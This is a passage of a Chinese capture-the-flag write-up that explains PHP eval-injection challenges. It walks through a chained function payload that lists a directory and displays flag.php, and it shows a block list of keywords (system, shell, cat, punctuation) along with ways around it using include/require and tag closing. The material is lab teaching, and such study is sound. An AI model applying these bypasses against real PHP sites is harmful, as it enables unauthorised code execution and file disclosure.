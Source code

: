 `pos()` 即 `current()`, 返回数组中的当前值, 默认情况下这里返回的是数组中的第一个值, 也就是 `.`

`scandir()` 用于列出指定路径中的文件和目录, 这里列出当前目录下的内容

```php
array(4) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(8) "flag.php"
  [3]=>
  string(9) "index.php"
}
```

`array_reverse()` 将数组翻转, 就变成了下面这样

```php
array(4) {
  [0]=>
  string(9) "index.php"
  [1]=>
  string(8) "flag.php"
  [2]=>
  string(2) ".."
  [3]=>
  string(1) "."
}
```

`next()` 将数组中的内部指针向前移动一位, 也就是返回下标为1 (第二位) 的值 (flag.php)

最后通过 `show_source()` 高亮显示源码内容

只能说 tql

## web32

```php
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
    eval($c);
}
```

又过滤了 `echo` `;` `(` 和反引号

可以使用文件包含的方式绕过

PHP 中 include 和 require 函数无需括号和空格也能使用

```php
include"a.php"
require"b.php"
```

然后这里的 `;` 可以使用标签闭合的形式绕过 (PHP 中如果语句只有一行那么结尾可以不用加分号)
